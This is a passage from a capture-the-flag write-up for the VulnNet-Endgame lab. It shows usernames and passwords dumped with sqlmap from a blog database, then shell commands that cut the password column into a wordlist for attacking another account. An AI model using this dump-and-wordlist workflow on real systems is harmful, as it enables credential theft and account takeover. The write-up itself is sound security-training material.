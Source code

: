 ```
| fjosefsb7          | zzh9wheBjX          |
| tmiskellyb8        | sAGTlyBrb5r         |
| nallrightb9        | 3uUPdL              |
| hlevermoreba       | fp2LW0x             |
| celgerbb           | IKhg7D              |
| frustedbc          | Tjyu2Ch2            |
| imeneghibd         | NgKgdeKRVEK         |
| vgouninbe          | wGWMg3d             |
| cbartoschbf        | ruTxBc2n85          |
| lcordonbg          | ZydELwZFV2          |
| dappsbh            | ROfVmvZSYS          |
| zduchanbi          | B4SBGt5yAD          |
| jfraybj            | zhE95JJX9l          |
| mlanchesterbk      | nXSVHhVW9S          |
| cgylesbl           | NCeU070             |
| cbonnifacebm       | WzkvfoedkXJx        |
| btoppasbn          | ktPBpK1             |
| mdurrettbo         | 8fCXE6BF9gj         |
| skilroybp          | cSAjOy              |
| uvonderemptenbq    | HLUHZ9oQ            |
| dvinsenbr          | gTc7TiSsd2          |
| ltiltbs            | 7yQ0b1B             |
| dsimcoebt          | SXD1eC6ysa          |
| wfrailbu           | bgb084kq            |
[...]
[01:15:43] [INFO] table 'blog.users' dumped to CSV file '/root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv'
```

That's a LOT of users and passwords!

Hmm... Let's take the `password` column's data as the **password wordlist** for the user `chris_w`? We can clean that up via `cut`.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# cat /root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv | cut -d "," -f2 > passlist.txt

┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# cat passlist.txt 
password
d5aa4AsdO
HCeByMT
YffkBZ
ZJpyxy
c7I4LAkVMIEN
75mupA
1hoUq2Q
TB5ziSGLU3
BdZ1sipbGkR7
[...]
```
